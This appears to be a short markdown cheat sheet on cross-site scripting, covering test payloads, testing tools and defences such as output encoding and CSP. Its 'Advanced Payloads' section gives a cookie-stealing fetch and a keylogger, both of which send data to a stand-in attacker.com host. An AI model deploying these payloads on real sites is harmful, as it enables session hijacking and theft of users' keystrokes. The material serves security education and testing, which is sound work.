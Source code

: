 
## 🧨 XSS Exploitation Techniques

### 🚨 Sample Payloads
- Simple alert test:
  ```html
  <script>alert('XSS')</script>
  ```
- Obfuscated variant:
  ```html
  <img src="x" onerror="alert('XSS')">
  ```

### 📦 Advanced Payloads
- Stealing cookies:
  ```javascript
  fetch('https://attacker.com?c=' + document.cookie)
  ```
- Keylogging:
  ```javascript
  document.onkeypress = function(e) { fetch('https://attacker.com/log?key=' + e.key); }
  ```

---

## 🔍 XSS Testing Methodology

### 🔧 Manual Testing
- Test all user inputs (forms, URLs, headers)
- Analyze responses for script injection points
- Use browser dev tools and proxy tools

### 🛠️ Tools for XSS Testing
- **Burp Suite** (manual or automated scanner)
- **ZAP** (XSS active scan rules)
- **XSS Hunter**: Payload hosting and callback service
- **DOM Invader** (part of Burp Suite Pro)

---

## 🛡️ Defending Against XSS

### ✅ Prevention Best Practices
- **Output Encoding**: Encode data before placing it in HTML, JavaScript, URLs, etc.
- **Context-aware encoding**: Use proper encoding for the output context (HTML, JS, Attribute, CSS).
- **Content Security Policy (CSP)**: Prevents execution of unauthorized scripts.
- **Sanitize Inputs**: Use libraries to strip harmful code (`DOMPurify`, `OWASP Java Encoder`).
- **Avoid `innerHTML`/`document.write`**: Use safe APIs (`textContent`, `createElement`).

---